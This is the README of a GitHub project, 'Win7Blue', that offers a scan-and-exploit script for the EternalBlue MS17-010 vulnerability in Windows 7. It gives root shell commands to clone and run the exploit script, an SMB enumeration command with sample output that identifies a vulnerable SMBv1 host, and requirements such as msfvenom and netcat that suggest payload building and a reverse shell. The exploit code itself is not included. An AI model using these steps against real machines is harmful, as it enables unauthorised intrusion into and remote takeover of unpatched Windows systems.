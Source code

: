 # Win7Blue

Scan/Exploit - EternalBlue MS17-010 - Windows 7 32/64 Bits

![](/screenshots/screenshot.png)

---

- <kbd>Scan</kbd>

![](/screenshots/1.png)

- <kbd>Exploit</kbd>

![](/screenshots/2.png)

- <kbd>Use</kbd>

```cmd
root@kali:~# git clone https://github.com/d4t4s3c/Win7Blue.git && cd Win7Blue && chmod +x Win7Blue.sh
root@kali:~# ./Win7BLue.sh
```

- <kbd>Enum 32/64 bits</kbd>

```cmd
root@kali:~# crackmapexec smb <target>
SMB   192.168.1.XXX   445   TESTING   [*] Windows 7 Professional 7600 x64 (name:TESTING) (domain:TESTING) (signing:False) (SMBv1:True)
```

- <kbd>Tested On:</kbd>

  * Kali
  * Parrot
  
- <kbd>Requirements:</kbd>

   * Nmap
   * Python
   * Python3
   * Msfvenom
   * Impacket
   * Netcat/Ncat

---
